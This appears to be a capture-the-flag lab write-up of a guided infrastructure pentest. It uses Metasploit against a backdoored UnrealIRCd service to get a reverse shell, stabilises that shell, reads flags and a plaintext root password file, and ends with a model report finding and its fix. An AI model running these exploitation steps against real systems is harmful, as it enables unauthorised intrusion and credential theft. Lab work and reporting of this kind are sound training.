



<div align="center">


# Guided Pentest: Infrastructure

**Difficulty:** Easy
**Category:** Infrastructure

</div>

---


After nmap scan: Start asking Questions!
* Is that service version outdated?
* Is there a know exploit for it?
* Is something misconfigured?
* WHAT CAN GO WRONG HERE?

# Versions
OpenSSH 9.6p1
Unreal3.2.8.1 IRC



Very nice.

```bash
msfconsole
search Unrealircd
use 0
show payloads
```

* `Show payloads` shows all the available payloads
```bash
set payload payload/cmd/unix/reverse
run
```



```bash
cat /home/webmaster/flag.txt
THM{Pwn<REDACTED>achine}
```

* Typically a "dumb" shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + z 
stty raw -echo; fg
export TERM=xterm
```



`/etc/password.txt`...

```bash
cat /etc/password.txt
root:PDLrCVl1pLD91U0JMmCz

root@pentest-target:~# cat /root/flag.txt
THM{Es<REDACTED>0ne}
```

## What should be in the report:
* A cover page with a title, your name, an email address and version control
* A table of contents
* An executive summary, aimed at the manager who requested the engagements, explaining what was achieved in non-technical terms.
* A technical summary aimed at the engineering manager, so they understand the impact and can prioritize accordingly.
* A table of all vulnerabilities found, ordered by severity, aimed at managers and engineers, again to prioritize accordingly.
* Detailed exploitation section, where each vulnerability and its impact are explained, exploitation steps and proof are shown, and recommendations for mitigations are given. This is aimed at engineers who will remediate your findings.

### The following is a report about the findings here.

**Title:** Root Password Stored in Plaintext

**Severity:** Critical

**Description:** The root user's password was found stored in plaintext within the file `/etc/password.txt.` This file was readable by low privilege users, allowing any user with shell access to retrieve the root credentials and fully compromise the system.

**Exploitation steps:**
1. Obtain a low-privileged shell on the target system.
2. Read the contents of `/etc/password.txt` using `cat /etc/password.txt`
3. Use the discovered root password to escalate privileges via `ssh root@IP`

**Recommendation:** Remove the plaintext password file immediately and rotate the root password. Credentials should never be stored in plaintext on the filesystem. Implement a secrets management solution or use properly configured system authentication mechanisms (such as `/etc/shadow` with strong hashing). Additionally, enforce the principle of least privilege to restrict file access permissions.